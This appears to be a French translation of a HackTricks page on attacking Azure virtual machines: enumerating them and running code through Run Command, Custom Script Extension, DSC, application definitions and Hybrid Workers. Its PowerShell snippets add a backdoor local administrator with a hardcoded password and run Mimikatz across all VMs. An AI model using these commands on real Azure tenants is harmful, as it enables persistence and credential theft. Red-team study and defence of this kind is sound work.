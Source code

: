 # Az - Machines Virtuelles & Réseau

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informations de base

[À partir de la documentation :](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Les machines virtuelles Azure sont l'un des plusieurs types de [ressources informatiques évolutives à la demande](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) qu'Azure propose. En général, vous choisissez une machine virtuelle lorsque vous avez besoin de plus de contrôle sur l'environnement informatique que ce que les autres choix offrent. Cet article vous donne des informations sur ce que vous devez considérer avant de créer une machine virtuelle, comment la créer et comment la gérer.

## Informations sur le réseau Azure

Les réseaux Azure contiennent **différentes entités et façons de le configurer.** Vous pouvez trouver des **descriptions** succinctes, des **exemples** et des **commandes d'énumération** des différentes entités réseau Azure dans :

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offre une solution d'accès sécurisée et entièrement gérée au protocole RDP (Remote Desktop Protocol) et SSH (Secure Shell) via SSL à travers le portail Azure. Il est intégré dans un réseau virtuel Azure, permettant une connectivité RDP et SSH aux machines virtuelles en utilisant des adresses IP privées, évitant ainsi le besoin d'adresses IP publiques. Cela en fait une alternative plus sûre et plus pratique aux méthodes traditionnelles impliquant des attributions d'adresses IP publiques et des configurations de règles NSG pour l'accès aux machines virtuelles. Les développeurs et le personnel informatique peuvent accéder de manière sécurisée aux machines virtuelles depuis le portail Azure en utilisant leurs navigateurs web, simplifiant ainsi le processus pour les environnements de développement et de test.

Pour lister tous les hôtes Azure Bastion dans votre abonnement, vous pouvez utiliser la commande suivante :

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Énumération des VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Exécuter des commandes dans une VM**

### **Connexion AAD dans une VM**

Il est possible de permettre l'accès aux utilisateurs authentifiés via AzureAD. Par exemple, en essayant d'accéder à une **VM Linux**: `ssh username@azure-corp.com@1.1.1.1` (il est important d'**utiliser l'e-mail** avec azurecorp utilisé lors de la tentative de connexion), vous pourriez obtenir une erreur comme:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Il vous suffit de **suivre ces instructions** en allant sur [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) et en indiquant le code, utilisez l'e-mail et le mot de passe comme identifiants et vous pourrez vous connecter via SSH (si cet utilisateur a suffisamment de permissions pour le faire : rôle `Connexion administrateur de machine virtuelle` ou `Connexion utilisateur de machine virtuelle`).

### **Exécuter la commande**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Exécuter l'extension de script personnalisé**

Les extensions de machine virtuelle (VM) Azure sont de **petites applications** qui fournissent une configuration post-déploiement et des tâches d'automatisation sur les **VM Azure**. Par exemple, si une machine virtuelle nécessite une installation de logiciel, une protection antivirus ou la capacité d'exécuter un script à l'intérieur, vous pouvez utiliser une extension de VM.

Par conséquent, si vous avez accès pour l'écrire, vous pouvez exécuter du code arbitraire:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### État de configuration souhaité (DSC)

L'état de configuration souhaité (DSC) est un outil PowerShell similaire à Ansible, utilisé pour configurer un hôte via du code. DSC s'intègre avec Azure, permettant le téléchargement de fichiers de configuration spécifiques. Ces fichiers doivent respecter une syntaxe stricte. Notamment, l'extension DSC dans Azure peut exécuter des commandes à partir de fichiers qui répondent à certains critères de formatage, même si la syntaxe n'est pas correcte selon les normes DSC, comme illustré dans la figure fournie.

L'exécution de ces commandes est facilitée par la fonction [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) dans Az PowerShell. Les exigences incluent un fichier **.PS1** avec une fonction définie et le fichier doit être compressé dans un fichier **.zip**. Même si la syntaxe peut ne pas être précise pour DSC, le code s'exécutera toujours. Cependant, l'extension marquera l'état d'exécution comme "échec", et aucune sortie de la commande ne sera visible en raison de l'écrasement du statut par le message d'échec.

### Définitions d'applications VM

Les définitions d'applications VM permettent le déploiement répétable d'applications versionnées sur une VM Azure. Cette ressource prend en charge le déploiement et la mise à jour d'applications sur des VM. Pour configurer cela, plusieurs étapes sont nécessaires, impliquant des commandes telles que **`New-AzGalleryApplication`** et **`New-AzGalleryApplicationVersion`** dans Az PowerShell.

L'exécution d'applications ou de commandes par cette méthode implique le **"VMAppExtension"**, qui est installé automatiquement lorsqu'une application est appliquée à une VM. L'extension récupère le fichier à partir de l'URI spécifié et le nomme exactement comme l'application, sans extension. Pour exécuter correctement le fichier, le champ "ManageActions" dans l'appel API REST doit être configuré pour renommer le fichier avec l'extension appropriée. La configuration de cette méthode, une fois terminée, ressemblera à la structure illustrée dans la figure fournie.

Cependant, cette méthode d'exécution est relativement lente, prenant environ 3 à 4 minutes pour exécuter une application ou une commande. Les fichiers liés à ce processus sont stockés dans des répertoires spécifiques (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` pour la copie de l'application et `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` pour l'état d'exécution).

Les deux techniques offrent des moyens uniques d'exécuter des commandes et de déployer des applications dans des environnements Azure, chacune avec ses propres exigences, étapes et considérations.

### Groupes de travailleurs hybrides (HWGs) dans Azure

[**Les groupes de travailleurs hybrides (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sont une fonctionnalité dans Azure qui permet aux Runbooks, configurés dans un compte Automation, d'être exécutés sur une machine virtuelle Azure (VM) faisant partie du HWG désigné. Cette exécution est facilitée par une extension installée sur la VM, qui déploie le code Runbook sur la VM. Un aspect important de ce processus est que les informations d'identification réelles ne sont pas un facteur dans l'exécution car le code s'exécute avec des privilèges élevés, spécifiquement en tant que **SYSTEM** ou root, comme illustré dans la figure fournie.

Un détail crucial pour ceux utilisant des VM Windows 10 est la nécessité de spécifier la version de PowerShell pour le Runbook. Il doit être configuré pour s'exécuter en tant que Version PowerShell 5.1 au lieu de 7.1. Cette exigence découle du fait que PowerShell 7.1 n'est pas installé par défaut sur ces VM, ce qui entraînerait un échec de l'exécution du script si la version 7.1 est spécifiée.

Cette fonctionnalité d'Azure offre une méthode robuste pour automatiser et gérer des tâches dans des environnements hybrides, permettant une gestion centralisée et l'exécution de tâches sur des VM Azure.


## Références

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez** 💬 le **groupe Discord**](https://discord.gg/hRep4RUj7f) ou le **groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
